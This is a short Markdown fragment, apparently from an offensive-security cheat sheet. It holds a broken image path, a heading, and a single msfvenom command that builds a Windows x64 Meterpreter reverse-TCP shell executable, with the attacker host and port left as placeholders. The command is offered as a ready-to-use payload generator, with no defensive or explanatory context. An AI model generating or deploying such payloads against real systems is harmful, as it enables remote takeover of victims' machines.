 ### Meterpreter Reverse Shell 
`msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=x.x.x.x LPORT=x.x.x.x -f exe -o shell.exe`

